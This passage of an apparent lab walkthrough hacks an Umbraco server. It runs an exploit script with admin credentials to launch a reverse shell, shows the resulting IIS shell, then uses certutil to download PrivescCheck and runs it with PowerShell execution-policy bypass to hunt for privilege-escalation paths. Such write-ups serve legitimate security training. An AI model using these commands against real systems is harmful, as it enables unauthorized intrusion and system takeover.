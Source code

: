 Execute the reverse shell executable:

```console
┌──(root㉿kali)-[~]
└─$ python3 49488.py -u admin@itsl.local -p mouseindeed -i http://10.0.88.45:9450 -c cmd -a '/c C:\\Users\\myumbraco.local\\reverse.exe'
```

Verify that the reverse shell has hooked on from the listener console
```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.45] 49756
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\myumbraco.local
```

Excellent, we now have shell on the target

# 5. Privilege Escalation

Scan for possible points of privilege escalation using [PrivescCheck](https://github.com/itm4n/PrivescCheck)

```cmd
c:\windows\system32\inetsrv>certutil.exe -urlcache -f -split https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1 C:\Users\myumbraco.local\PrivescCheck.ps1
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1 C:\Users\myumbraco.local\PrivescCheck.ps1
****  Online  ****
  000000  ...
  01444c
CertUtil: -URLCache command completed successfully.

c:\windows\system32\inetsrv>powershell -nop -ep bypass -c "Import-Module C:\Users\myumbraco.local\PrivescCheck.ps1; Invoke-PrivescCheck"
powershell -nop -ep bypass -c "Import-Module C:\Users\myumbraco.local\PrivescCheck.ps1; Invoke-PrivescCheck"
⋮

+------+------------------------------------------------+------+
| TEST | SERVICES > Non-default Services                | INFO |
+------+------------------------------------------------+------+
| DESC | List all registered services and filter out the ones  |
|      | that are built into Windows. It does so by parsing    |
|      | the target executable's metadata.                     |
+------+-------------------------------------------------------+
[*] Found 5 result(s).


Name        : FileZilla Server
DisplayName : FileZillaServer
ImagePath   : "C:\xampp\filezillaftp\filezillaserver.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : FreeSWITCH
DisplayName : FreeSWITCH Multi Protocol Switch
ImagePath   : "C:\Program Files\FreeSWITCH\FreeSwitchConsole.exe"  -service
User        : LocalSystem
StartMode   : Automatic

Name        : GoogleChromeElevationService
DisplayName : Google Chrome Elevation Service (GoogleChromeElevationService)
```